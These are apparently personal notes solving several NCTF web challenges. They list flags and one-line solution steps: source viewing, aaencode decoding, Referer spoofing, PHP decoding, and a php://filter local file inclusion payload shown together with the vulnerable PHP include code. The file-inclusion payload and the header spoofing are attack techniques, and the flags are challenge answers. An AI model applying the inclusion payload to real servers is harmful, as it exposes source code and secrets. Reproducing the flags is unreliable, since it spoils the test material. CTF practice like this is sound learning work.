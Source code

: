 		nctf{photo_can_also_hid3_msg}


5. 层层递进!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
100
层层查看源代码

		nctf{this-is_a_fl4g}

6.aaencode!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
ppencode/rrencode/jjencode/aaencode  
js格式化，去掉eval，console中执行 

		https://tool.zcmzcm.org/aadecode
		alert("nctf{javascript_aaencode}")

7.单身二十年!!!!!!!!!!!!!!!!!!  
100  
	
		<script>window.location="./no_key_is_here_forever.php"; </script>
		nctf{yougotit_script_now}

8.你从哪里来!!!!!!!!!!!!!!!!!!!!!!!!!!!!
100

		Referer: http://google.com
		nctf{http_referer}
		74.117.178.147

9.phpdecode!!!!!!!!!!!!!!!!!
100

	gzinflate,base64_decode,strlen,chr,ord
	php C:\Users\tulu\Desktop\CTF\phpdecode.php
	nctf{gzip_base64_hhhhhh}

10.文件包含!!!!!!!!!!!!!!!!!!!!
150  

		http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php
		
		<html>
			<title>asdf</title>   
		<?php
			error_reporting(0);
			if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
			$file=$_GET['file'];
			if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
				echo "Oh no!";
				exit();
			}
			include($file); 
		//flag:nctf{edulcni_elif_lacol_si_siht}
		?>
		</html>
		
		nctf{edulcni_elif_lacol_si_siht}
